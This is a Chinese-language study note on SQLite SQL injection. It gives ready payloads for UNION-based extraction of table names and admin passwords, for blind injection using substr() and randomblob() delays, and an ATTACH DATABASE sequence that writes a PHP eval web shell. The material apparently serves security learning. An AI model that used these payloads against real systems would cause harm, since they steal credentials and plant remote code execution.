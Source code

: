 sql注入

是否存在注入：即判断当前输入是否被当作参数服务器执行sql语句

字段数：`order by 2`，按照第二个字段排序

union联合查询，因为`1=2`是错误的，所以最终也就执行了union的select语句

```sqlite
判断是否存在注入： and 1=2
判断字段数: order by 2
寻找显错位:union select 1,2
查询表名:and 1=2 union select 1,name from sqlite_master where type='table' limit 2,1
查询列名:and 1=2 union select 1,sql from sqlite_master where type='table' and name='admin'
查询具体数据
and 1=2 union select 1,password from admin
```







盲注

有时候目标存在注入，但在页面上没有任何回显，此时，我们需要利用一些方法进行判断或者尝试得到数据，这个过程称之为盲注。

盲注函数

```sql
length()函数返回字符串的长度
and length((select name from sqlite_master where type='table' limit 1,1)) > 1

substr(截取的内容,位数,个数)截取字符串，从第一位截取一个
and substr((select name from sqlite_master where type='table' limit 1,1),1,1)='a'

CASE WHEN<条件表达式>THEN<为真返回值>ELSE<为假返回值>END

randomblob()函数，生成随机字符串，可用来代替sleep造成延时
and 1=(case when(substr(sqlite_version(),1,1)='3') then randomblob(100000000) else 0 end)

```



![image-20210923153203954](C:\Users\jun Ding\AppData\Roaming\Typora\typora-user-images\image-20210923153203954.png)



sqlite写马

```sqlite
ATTACH DATABASE 'D://sqlite.php' AS shell;
CREATE TABLE shell.php(payload text);
INSERT INTO shell.php(payload) VALUES('<?php eval($_REQUEST[1];?>');
```

eval()括号中的内容被当作php代码执行，传入`1=参数`，`$_REQUEST`就被参数代替。







显错注入

报错注入

盲注

dns_log：<mark>盲注变显错</mark>












